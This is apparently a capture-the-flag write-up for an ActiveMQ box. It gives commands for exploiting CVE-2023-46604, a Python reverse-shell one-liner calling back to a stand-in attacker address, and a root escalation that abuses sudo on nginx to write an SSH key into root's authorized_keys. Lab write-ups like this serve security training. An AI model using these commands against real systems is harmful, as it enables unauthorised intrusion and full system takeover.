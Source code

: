 # Broker – ActiveMQ Exploitation and Privilege Escalation

**Target:** `broker` (CTF Room)
**Goal:** Exploit Apache ActiveMQ (CVE-2023-46604) for RCE, escalate privileges to root via misconfigured `nginx` sudo access.


## 1. Reconnaissance

Performed a full TCP port and service scan:

**nmap -p- -sV -T4 -oN full.nmap <target-ip>**

Open ports:

* **8161** – Apache ActiveMQ Web Console
* **61616** – OpenWire protocol (used by ActiveMQ clients)

---

## 2. Gaining Access via Apache ActiveMQ (RCE)

Checked for an exposed web interface:

**curl http\://target-ip:8161/**

Tested default login credentials:

**admin\:admin** → Success

Identified the version as vulnerable to **CVE-2023-46604**.

Cloned the exploit repository:

**git clone https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell.git**  
**cd CVE-2023-46604-ActiveMQ-RCE-pseudoshell**



Ran the exploit:

**python3 exploit.py -i <target-ip> -p 61616 -si <your-ip> -sp 8080**

> Result: Semi-interactive pseudo-shell as `activemq` user.


---

## 3. Reverse Shell Upgrade

Set up a listener:

**nc -lvnp 4444**

Triggered a reverse shell from the pseudo-shell:

**python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("attackerip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash"])'**

> Result: Full interactive shell as `activemq`.

---

## 4. Privilege Escalation via NGINX

Checked sudo permissions:

**sudo -l**

Found:

**(ALL : ALL) NOPASSWD: /usr/sbin/nginx**

Created a malicious NGINX configuration:

**/tmp/nginx\_pwn.conf**

```
user root;
worker_processes 1;
pid /tmp/nginx.pid;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8088;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Started NGINX as root:

**sudo /usr/sbin/nginx -c /tmp/nginx\_pwn.conf**

---

## 5. Gaining Root via SSH

Generated an SSH key:

**ssh-keygen -t rsa -f /tmp/root\_key -N ""**

Uploaded the public key to root's authorized\_keys:

**curl -X PUT --data-binary "@/tmp/root\_key.pub" [http://127.0.0.1:8088/root/.ssh/authorized\_keys](http://127.0.0.1:8088/root/.ssh/authorized_keys)**

Set permissions and connected:

**chmod 600 /tmp/root\_key**
**ssh -i /tmp/root\_key root@<target-ip>**

> Result: Root shell obtained.

---

## 🔢 Outcome

* **Initial Access:** RCE using CVE-2023-46604
* **Shell:** Reverse shell via Python
* **Privilege Escalation:** Sudo access to nginx and file upload trick
* **Final Access:** Root via SSH key injection

---

